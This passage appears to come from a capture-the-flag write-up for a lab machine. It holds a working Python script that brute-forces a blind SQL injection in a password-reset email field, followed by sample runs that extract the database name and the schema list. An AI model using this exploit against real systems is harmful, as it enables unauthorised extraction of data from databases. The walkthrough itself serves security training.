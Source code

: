 ```python
            return i

def doSQLi(query):
    print("[+] Bruteforcing and abusing SQLi...")
    print(f"[+] Query to extract: {query}")
    length = get_length(query)
    print(f"[+] Length of {query}: {length}")
    print(f"[+] {query} extraction: ", end="", flush=True)
    for position in range(1, length+1):
        for character in characters:
            hex_char = hex(ord(character))
            token = get_token()
            post_data = {
                '_token': token,
                'email': "tatasta' or (select substr((%s),%d,1))=%s-- -" % (query, position, hex_char)
            }
            r = s.post(resetPasswordUrl, data=post_data)
            if sqli_success(r):
                print(character, end='', flush=True)
                break
    print("\n\n[+] Finished!")


if __name__ == '__main__':
    if len(sys.argv) >= 2:
        query = sys.argv[1]
        doSQLi(query)
    else:
        print(f"[i] Usage: python3 {sys.argv[0]} <query>")
        sys.exit(1)


```

Executing this script, successfully prints the length and retrieves that the name of the current database in use is "usage_blog":

```cmdbash
❯ python3 sqli-reset-password.py "database()"
[+] Bruteforcing and abusing SQLi...
[+] Query to extract: "database()"
[+] Length of "database()": 10
[+] "database()" extraction: usage_blog

[+] Finished!
```

I will change the query to `"select group_concat(schema_name) from information_schema.schemata"` to retrieve all the databases separated by commas. There is no other interesting database here:

```cmdbash
❯ python3 sqli-reset-password.py "select group_concat(schema_name) from information_schema.schemata"
[+] Bruteforcing and abusing SQLi...
[+] Query to extract: select group_concat(schema_name) from information_schema.schemata
[+] Length of select group_concat(schema_name) from information_schema.schemata: 48
[+] select group_concat(schema_name) from information_schema.schemata extraction: information_schema,performance_schema,usage_blog

[+] Finished!
```

